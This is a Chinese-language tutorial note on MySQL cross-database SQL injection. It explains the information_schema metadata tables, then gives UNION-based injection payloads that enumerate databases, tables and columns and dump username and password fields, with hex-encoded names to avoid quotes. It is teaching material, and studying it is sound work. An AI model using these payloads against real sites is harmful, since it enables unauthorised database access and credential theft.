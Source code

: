 跨库查询是 SQL注入的一种。

information_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式。什么是元数据呢？元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。有些时候用于表述该信息的其他术语包括“数据词典”和“系统目录”。

在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等。在INFORMATION_SCHEMA中，有数个只读表。它们实际上是视图，而不是基本表，因此，你将无法看到与之相关的任何文件。

information_schema数据库表说明:

**SCHEMATA**表：提供了当前mysql实例中所有数据库的信息。是show databases的结果取之此表。

**TABLES表**：提供了关于数据库中的表的信息（包括视图）。详细表述了某个表属于哪个schema，表类型，表引擎，创建时间等信息。是show tables from schemaname的结果取之此表。

**COLUMNS表**：提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息。是show columns from schemaname.tablename的结果取之此表。

**STATISTICS表**：提供了关于表索引的信息。是show index from schemaname.tablename的结果取之此表。

**USER_PRIVILEGES（用户权限）表**：给出了关于全程权限的信息。该信息源自mysql.user授权表。是非标准表。

**SCHEMA_PRIVILEGES（方案权限）表**：给出了关于方案（数据库）权限的信息。该信息来自mysql.db授权表。是非标准表。

**TABLE_PRIVILEGES（表权限）表**：给出了关于表权限的信息。该信息源自mysql.tables_priv授权表。是非标准表。

**COLUMN_PRIVILEGES（列权限）表**：给出了关于列权限的信息。该信息源自mysql.columns_priv授权表。是非标准表。

**CHARACTER_SETS（字符集）表**：提供了mysql实例可用字符集的信息。是SHOW CHARACTER SET结果集取之此表。

**COLLATIONS表**：提供了关于各字符集的对照信息。

**COLLATION_CHARACTER_SET_APPLICABILITY表**：指明可用于校对的字符集。这些列等效于SHOW COLLATION的前两个显示字段。

**TABLE_CONSTRAINTS表**：描述了存在约束的表。以及表的约束类型。

**KEY_COLUMN_USAGE表**：描述了具有约束的键列。

**ROUTINES表**：提供了关于存储子程序（存储程序和函数）的信息。此时，ROUTINES表不包含自定义函数（UDF）。名为“mysql.proc name”的列指明了对应于INFORMATION_SCHEMA.ROUTINES表的mysql.proc表列。

**VIEWS表**：给出了关于数据库中的视图的信息。需要有show views权限，否则无法查看视图信息。

**TRIGGERS表**：提供了关于触发程序的信息。必须有super权限才能查看该表

**SCHEMATA** 

SCHEMATA_NAME

**TABLES**

TABLE_SCHEMA
TABLE_NAME

**COLUMNS**

TABLE_SCHEMA
TABLE_NAME
COLUMN_NAME

**MYSQL注入语句分析**

查询库

```sql
and 1=2 union select 1,2,3,SCHEMA_NAME,5,6,7,8,9,10 from information_schema.SCHEMATA limit 0,1
select 1,2,3,SCHEMA_NAME,5,6,7,8,9,10 from information_schema.SCHEMATA limit 0,1
```

SCHEMA_NAME

information_schema.SCHEMATA 查询那个数据库的那个表的意思 如果在同一个数据库里

就不用加上information_schema. 

limit 3 从开头取三行 三个

limit 0,1 从什么开头 取多少个

```sql
select 1,2,3,SCHEMA_NAME,5,6,7,8,9,10 from information_schema.SCHEMATA limit 5,1
```

查询表

```sql
and 1=2 union select 1,2,3,TABLE_NAME,5,6,7,8,9,10 from information_schema.TABLES where TABLE_SCHEMA=mydata limit 0,1
select 1,2,3,TABLE_NAME,5,6,7,8,9,10 from information_schema.TABLES where TABLE_SCHEMA=mydata limit 0,1
select 1,2,3,TABLE_NAME,5,6,7,8,9,10 from information_schema.TABLES where TABLE_SCHEMA=数据库（十六进制） limit
```

select (0x6D6F6F6E)

hex()

unhex()

查询列

```sql
and 1=2 Union select 1,2,3,COLUMN_NAME,5,6,7,8,9,10 from information_schema.COLUMNS where TABLE_NAME=表名（十六进制）limit 0,1
select 1,2,3,COLUMN_NAME,5,6,7,8,9,10 from information_schema.COLUMNS where TABLE_NAME='goods' limit 0,1
```

查询数据

暴密码  

```sql
and 1=2 Union select 1,2,3,用户名段,5,6,7,密码段,8,9 from 表名 limit 0,1
select * from goods where id=1 union select  1,2,3,4 from users;
select * from goods where id=-1 union select  1,2,3,4 from users;
```



首先查询库

```sql
select SCHEMA_NAME from information_schema.SCHEMATA limit 0,1;
select SCHEMA_NAME from information_schema.SCHEMATA limit 1;
select SCHEMA_NAME from information_schema.SCHEMATA limit 1,1;
```

查询表

select hex('moon')

```sql
select  TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='moon' limit 1,1;
select  TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=0x6D6F6F6E limit 1,1;
```

列

```sql
select COLUMN_NAME from information_schema.COLUMNS where TABLE_SCHEMA='moon' and TABLE_NAME='users' limit 1;
select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 1;
```

查询结果

id username password

```sql
select id,username,password from moon.users;
select id,username,password from moon.users limit 1;
```

通过information_schema系统库里面表来查询其他库表的数据

跨库查询。权限比较大的时候才可以的。(root)